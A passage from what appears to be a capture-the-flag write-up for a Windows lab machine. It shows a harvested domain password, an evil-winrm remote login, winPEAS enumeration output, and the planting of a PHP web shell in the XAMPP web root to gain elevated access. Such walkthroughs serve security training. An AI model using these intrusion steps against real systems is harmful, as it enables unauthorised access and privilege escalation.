@echo off set filename=%~1 powershell -command "$p = convertto-securestring 'chr!$br0wn' -asplain -force;$c = new-object system.management.automation.pscredential('hospital\drbrown', $p);Invoke-Command -ComputerName dc -Credential $c -ScriptBlock { cmd.exe /c "C:\Program` Files\gs\gs10.01.1\bin\gswin64c.exe" -dNOSAFER "C:\Users\drbrown.HOSPITAL\Downloads\%filename%" }"hospital\drbrown:chr!$br0wn
7. Found flag in Desktop folder → 29f0e90c85ddd5e09768797bc84ce5ce
Privilege escalation
We can now connect using WinRM:evil-winrm -i 10.10.11.241 -u drbrown -p 'chr!$br0wn’
- Running winpeas
upload "winPEASany.exe" winPEASany.exePriv tokens
SeMachineAccountPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED SeIncreaseWorkingSetPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLEfolder permissions
C:\xampp(Users [AppendData/CreateDirectories WriteData/CreateFiles])interesting files
Folder: C:\Users\drbrown.HOSPITAL\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup FolderPerms: drbrown [AllAccess] File: C:\Users\drbrown.HOSPITAL\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\connect.bat (Unquoted and Space detected) FilePerms: drbrown [AllAccess]DPAPI
MasterKey: C:\Users\drbrown.HOSPITAL\AppData\Roaming\Microsoft\Protect\S-1-5-21-4208260710-2273545631-1523135639-1601\358be4c1-badd-4d23-a242-5d8cb35d4b8b Accessed: 9/8/2023 2:12:04 PM Modified: 9/8/2023 2:12:04 PM ================================================================================================= MasterKey: C:\Users\drbrown.HOSPITAL\AppData\Roaming\Microsoft\Protect\S-1-5-21-4208260710-2273545631-1523135639-1601\f0ee438c-ce00-4b67-acf9-a578bb930850 Accessed: 12/12/2023 7:21:12 PM Modified: 12/12/2023 7:21:12 PM ================================================================================================PHP sessions
File: C:\xampp\tmp\sess_i84t5dtj10aa1t8sqgtj2o7i7u File: C:\xampp\tmp\sess_clcgpo3grpitf5bsa6rk6vfnb5 File: C:\xampp\tmp\sess_4knvaje1nih9ntd1j6209o76vv
Xampp
Now that we have access to the other webserver, I tried uploading our previous php shell in the C:\xampp\htdocs folder to see under what permissions it would run.

Found root flag → 32b490f913b5fd09b6facaedc92c5146